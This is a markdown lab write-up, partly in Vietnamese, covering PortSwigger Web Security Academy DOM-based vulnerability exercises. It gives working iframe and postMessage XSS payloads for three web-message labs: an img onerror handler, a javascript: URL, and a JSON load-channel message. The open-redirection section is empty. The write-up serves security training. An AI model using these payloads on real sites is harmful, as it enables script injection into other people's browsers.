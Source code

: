 # DOM-based vulnerabilities

### 1. DOM XSS using web messages
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages

Context: Dùng hàm `addEventListener()` để lắng nghe message.

![alt text](image.png)

Nó sẽ lắng nghe để gắng quảng cáo vào trang web. 

Tạo 1 iframe ở server exploit, iframe này dẫn đến trang web cần exploit và có gửi thêm message, payload:\
`<iframe src="https://0a3e00fa03d89772812011d8009c002a.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">`

![alt text](image-1.png)

---

### 2. DOM XSS using web messages and a JavaScript URL
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url

Context: Dùng hàm `addEventListener()` + sink: `location.href` + URL cần có `http/https`

![alt text](image-2.png)

Payload: `<iframe src="https://0a60005c0338391482ef47cf007b003b.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">`

---

### 3. DOM XSS using web messages and `JSON.parse`
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse

Context: `addEventListener` + message dạng JSON

![alt text](image-3.png)

Ở đây ta thấy có thêm điều kiện `type=load-channel` để có thể được gán `src` = `d.url`.

Payload: `<iframe src=https://0a9b004b04098a3c80aa857e0066000e.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>`

---

### 4. DOM-based open redirection
https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection

Context: 














